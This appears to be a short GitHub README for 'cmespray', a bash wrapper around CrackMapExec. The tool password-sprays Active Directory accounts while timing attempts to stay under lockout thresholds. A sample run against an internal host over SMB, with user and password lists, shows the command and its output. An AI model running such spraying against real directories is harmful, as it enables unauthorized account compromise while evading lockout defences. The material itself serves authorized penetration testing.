 # cmespray
Password spray Active Directory accounts with [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) according to reset counter and lockout threshold policies. Modified to use flags instead of prompt for input. Now has options for protocol and port.

### Usage
```
┌──(root㉿kali)-[/home/kali/]
└─# bash ../cmespray/cmespray-2.sh -t 10.0.1.10 -m smb -u ./test-users.txt -p ./test-pass.txt -l 3 -r 4 -n 445 
[*] Trying 2 passwords every 5 minutes against 10.0.1.10 and using ./test-pass.txt and ./test-users.txt lists.
```
